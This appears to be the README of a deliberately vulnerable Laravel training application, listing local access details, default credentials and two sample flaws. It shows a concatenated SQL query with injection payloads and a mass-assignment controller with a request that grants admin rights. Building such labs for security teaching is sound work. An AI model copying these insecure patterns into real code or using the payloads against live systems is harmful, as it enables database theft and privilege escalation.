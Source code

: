 # Laravel Vulnerable Application

## Overview
A deliberately vulnerable Laravel application showcasing common security vulnerabilities in PHP Laravel applications, including framework-specific issues and misconfigurations.

## Quick Start

**Access URL**: http://localhost:8094

**Default Credentials**:
- Admin: `admin@laravel.com` / `password`
- User: `user@laravel.com` / `password`

**Laravel Telescope** (Debug Dashboard): http://localhost:8094/telescope

## Application Features

- User authentication system
- Blog with comments
- File upload system
- API endpoints
- Admin panel
- Shopping cart
- Payment processing
- Laravel Telescope enabled

## Vulnerabilities

### 1. SQL Injection
```php
// Vulnerable query
$users = DB::select("SELECT * FROM users WHERE email = '".$request->email."'");

// Attack
http://localhost:8094/search?email=' OR '1'='1
http://localhost:8094/search?email=' UNION SELECT * FROM password_resets--
```

### 2. Mass Assignment
```php
// Vulnerable model (no $fillable or $guarded)
class User extends Model {
    // All attributes are mass assignable
}

// Vulnerable controller
public function update(Request $request, User $user) {
    $user->update($request->all());
}

// Attack - Become admin
POST /users/1
_method=PUT&email=admin@evil.com&is_admin=1&email_verified_at=2023-01-01
```
